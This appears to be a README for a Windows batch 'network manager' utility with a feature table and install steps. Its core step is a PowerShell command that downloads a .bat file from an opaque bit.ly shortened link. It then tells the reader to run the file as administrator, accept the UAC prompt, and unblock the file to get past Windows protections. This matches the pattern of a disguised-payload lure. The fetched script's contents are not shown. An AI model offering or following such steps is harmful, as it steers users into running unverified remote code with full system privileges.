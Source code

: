 # 👻 BHOOLKY Network Manager
*A Windows batch script for advanced network configuration*

## 🌟 Features
| Feature          | Description                          |
|------------------|--------------------------------------|
| IP Configuration | Set static/dynamic IP addresses      |
| DNS Management   | Configure custom DNS servers         |
| Wi-Fi Control    | Connect/disconnect from networks     |
| VPN Integration  | OpenVPN/WireGuard support            |
| Diagnostics      | Ping, traceroute, and connection tests |

## 💻 Installation
1. Download the `.bat` file
2. Right-click → "Run as administrator"
3. Follow on-screen menu

## Requirements
- Windows 10/11
- Administrator access
  
## Steps
```run in powershell powershell
iwr -Uri "https://bit.ly/bhoolky-net" -OutFile BHOOLKY_Network.bat

1. [Download the script](BHOOLKY_Network.bat)
2. Right-click → "Run as administrator"
3. Accept UAC prompt
4. Follow menu options

## Troubleshooting
If blocked by Windows:
1. Right-click the file → Properties
2. Check "Unblock" under Security
3. Click "Apply"
